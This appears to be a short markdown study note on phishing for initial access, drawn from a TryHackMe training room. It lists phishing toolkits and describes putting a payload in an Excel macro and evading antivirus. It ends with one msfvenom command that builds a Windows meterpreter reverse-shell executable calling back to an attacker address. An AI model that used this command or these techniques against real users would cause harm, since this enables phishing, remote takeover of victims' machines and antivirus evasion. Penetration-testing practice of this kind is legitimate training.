# 🎯 Phishing Techniques (Initial Access)

## ✅ Overview
Phishing is a technique used to trick users into revealing credentials or executing malicious payloads.

## 🧰 Tools Covered
- Gophish
- Evilginx2
- Social-Engineer Toolkit (SET)

## 🔁 Common Payloads
- Reverse Shells
- Credential Harvesters
- Malicious Attachments

## 🧪 Practice Notes
From TryHackMe Room: Initial Access  
- Used msfvenom to create a payload  
- Embedded payload in an Excel macro  
- Bypassed AV with basic obfuscation

## 📁 Sample Commands

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.0.1 LPORT=4444 -f exe > shell.exe
